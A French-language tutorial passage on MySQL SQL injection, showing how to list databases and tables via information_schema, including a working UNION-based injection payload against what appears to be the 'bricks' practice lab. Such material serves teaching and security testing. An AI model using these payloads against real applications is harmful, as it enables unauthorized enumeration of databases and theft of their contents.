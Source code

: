 ## Lister les bases de données

MySQL a une base de données spéciale qui contient le nom des _bases de données_, _tables_, et _colonnes_ des tables.\
En faisant des requête sur cette dernière on peut récupérer toutes ces informations.

Lister les bases de données gérées par MySQL se fait avec le requête suivante :

```
SELECT group_concat(0x7c,schema_name,0x7c) FROM information_schema.schemata;
```

Dans une injection SQL avec un `UNION`, cela donne :

![Récupération des bases de données avec UNION](images/r%C3%A9cup%C3%A9ration_des_bdd.png)

Soit l'injection SQL suivante :
```
username=tom'+UNION+SELECT+NULL,NULL,group_concat(0x7c,schema_name,0x7c),NULL,NULL,NULL,NULL,NULL+FROM+information_schema.schemata+LIMIT+1,1;--+&submit=Submit
```

## Lister les tables

De la même manière, une fois que l'on a identifier une base de donnée, on peut en lister les tables.\
Ici, la base qui nous intéresse est `bricks`.

Lister les tables se fait avec la requête SQL suivante :
```
SELECT group_concat(0x7c,table_name,0x7c) FROM information_schema.tables WHERE table_schema='nom_de_la_bdd';
```
